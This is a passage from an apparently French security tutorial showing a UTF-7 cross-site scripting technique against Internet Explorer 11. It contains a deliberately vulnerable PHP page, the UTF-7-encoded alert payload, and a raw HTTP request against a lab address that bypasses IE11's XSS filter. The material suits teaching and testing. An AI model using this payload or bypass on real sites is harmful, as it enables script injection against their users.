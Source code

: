 ```php
<<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>XSS in IE11</title>
  </head>
  <body>
    <p>
      <?php 
        header('Content-Type: text/html;charset=UTF-7');
        echo "xss encoding : " . htmlspecialchars($_SERVER["QUERY_STRING"], ENT_QUOTES, "UTF-8");
      ?>
    </p>       
  </body>
</html>
```

Deux limitations à cette exploitation :&#x20;

* Elle ne semble pas fonctionner lorsque la valeur du paramètre est récupérée depuis `$_GET['param']`
* L'attaquant doit trouver un moyen de forcer l'encodage de la page à "UTF-7" (codé en dur dans l'exemple : `header('Content-Type: text/html;charset=UTF-7');` )

Pour exploiter la vulnérabilité, l'attaque transforme tout d'abord son injection en "UTF-7". Ici `<script>alert(1)</script>` donne `+ADw-script+AD4-alert(1)+ADw-/script+AD4-` : &#x20;

![](<../../../.gitbook/assets/image (43).png>)

Cette exploitation possède par contre l'avantage de contourner le filtre anti-XSS d'IE 11 :&#x20;

```http
GET /minipoc/htmlspecialchars/indexie.php?xss=+ADw-script+AD4-alert(1)+ADw-/script+AD4- HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 192.168.56.101
Connection: close
```
